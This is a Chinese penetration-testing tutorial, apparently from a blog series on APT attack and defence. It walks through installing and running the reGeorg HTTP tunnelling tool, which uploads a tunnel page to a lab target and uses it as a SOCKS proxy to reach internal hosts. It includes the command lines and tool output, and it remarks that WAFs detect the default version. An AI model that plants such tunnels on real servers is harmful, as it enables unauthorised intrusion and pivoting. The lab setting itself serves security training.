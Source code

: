 # 专注APT攻击与防御
https://micropoor.blogspot.com/

**reGeorg简介：**

reGeorg 的前身是2008年 SensePost 在 BlackHat USA 2008 的 reDuh 延伸与扩展。也是目前安全从业人员使用最多，范围最广，支持多丰富的一款 http 隧道。从本质上讲，可以将 JSP/PHP/ASP/ASPX 等页面上传到目标服务器，便可以访问该服务器后面的主机。

2014年blackhat介绍
https://www.blackhat.com/eu-14/arsenal.html#regeorg

Github：
https://github.com/sensepost/reGeorg

**攻击机：**
192.168.1.5 Debian
192.168.1.4 Windows 7

**靶机：** 
192.168.1.119 Windows 2003

安装：
```bash
root@John:~# git clone https://github.com/sensepost/reGeorg.git
Cloning into 'reGeorg'...
remote: Enumerating objects: 85, done.
remote: Total 85 (delta 0), reused 0 (delta 0), pack‐reused 85
Unpacking objects: 100% (85/85), done.
root@John:~# cd reGeorg/
root@John:~reGeorg# ls
LICENSE.html LICENSE.txt README.md reGeorgSocksProxy.py tunnel.ashx tu
nnel.aspx tunnel.js tunnel.jsp tunnel.nosocket.php tunnel.php tunnel.tomcat.5.jsp
root@John:~/reGeorg# python reGeorgSocksProxy.py ‐h


_____
_____ ______ __|___ |__ ______ _____ _____ ______
| | | ___|| ___| || ___|/ \| | | ___|
| \ | ___|| | | || ___|| || \ | | |
|__|\__\|______||______| __||______|\_____/|__|\__\|______|
|_____|
... every office needs a tool like Georg 

willem@sensepost.com / @_w_m__
sam@sensepost.com / @trowalts
etienne@sensepost.com / @kamp_staaldraad 

usage: reGeorgSocksProxy.py [‐h] [‐l] [‐p] [‐r] ‐u [‐v] 

Socks server for reGeorg HTTP(s) tunneller 

optional arguments:
‐h, ‐‐help show this help message and exit
‐l , ‐‐listen‐on The default listening address
‐p , ‐‐listen‐port The default listening port
‐r , ‐‐read‐buff Local read buffer, max data to be sent per POST
‐u , ‐‐url The url containing the tunnel script
‐v , ‐‐verbose Verbose output[INFO\|DEBUG]
```

```bash
root@John:~/reGeorg# pip install urllib3
Requirement already satisfied: urllib3 in /usr/lib/python2.7/dist‐packages (1.24)
```
![](media/c0a4051103d17e54b53982c1b6e8b631.jpg)



**靶机执行：**

以aspx为demo。
![](media/6f441fb77ba89a092b149fc8b4bc7eb9.jpg)

**攻击机执行：**
```python
python reGeorgSocksProxy.py ‐p 8080 ‐l 192.168.1.5 ‐u http://192.168.1.119/tunnel.aspx
```
![](media/ecf64d63d586febad9c38bfa700ecd46.jpg)


Windows下配合Proxifier：
![](media/e0ed655e244f7a76f703bfa13ec6bb4d.jpg)

![](media/48feea22eae0e72d9585eef488eb07f8.jpg)

非常遗憾的是，目前大部分waf都会针对默认原装版本的reGeorg。

>   Micropoor
